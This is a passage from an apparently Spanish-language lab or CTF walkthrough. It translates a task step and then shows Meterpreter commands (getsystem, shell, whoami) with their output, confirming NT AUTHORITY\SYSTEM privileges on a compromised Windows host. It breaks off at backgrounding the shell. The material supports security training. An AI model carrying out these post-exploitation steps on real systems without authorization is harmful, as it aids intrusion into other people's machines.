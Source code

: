 #### 4. Verify that we have escalated to `NT AUTHORITY\SYSTEM`. Run `getsystem` to confirm this. Feel free to open a DOS shell via the command `shell` and run `whoami`. This should return that we are indeed SYSTEM. Background this shell afterwards and select our meterpreter session for usage again.

> **Traducción:**  
> Verifique que hayamos escalado privilegios a `NT AUTHORITY\SYSTEM`. Ejecute `getsystem` para confirmarlo. Si desea, abra una consola de DOS con el comando `shell` y ejecute `whoami`. Esto debería confirmar que tenemos privilegios de **SYSTEM**. Luego, regrese la shell al segundo plano y retome el control de la sesión Meterpreter.

---

##### Paso 1: Verificación con `getsystem`

Dentro de la sesión de Meterpreter, ejecutamos:

```bash
meterpreter > getsystem
```

Resultado:

```
[-] Already running as SYSTEM
```

> Este mensaje indica que **ya estamos operando con privilegios de SYSTEM**, por lo que no es necesario realizar una escalada adicional.

---

##### Paso 2: Confirmación manual con `whoami`

Para validarlo, accedimos a una shell del sistema con el comando:

```bash
meterpreter > shell
```

Y ejecutamos:

```bash
C:\Windows\system32> whoami
```

Resultado:

```
nt authority\system
```

> Este resultado **confirma plenamente** que la sesión activa tiene privilegios de `NT AUTHORITY\SYSTEM`.

---

##### Paso 3: Enviar la shell al segundo plano
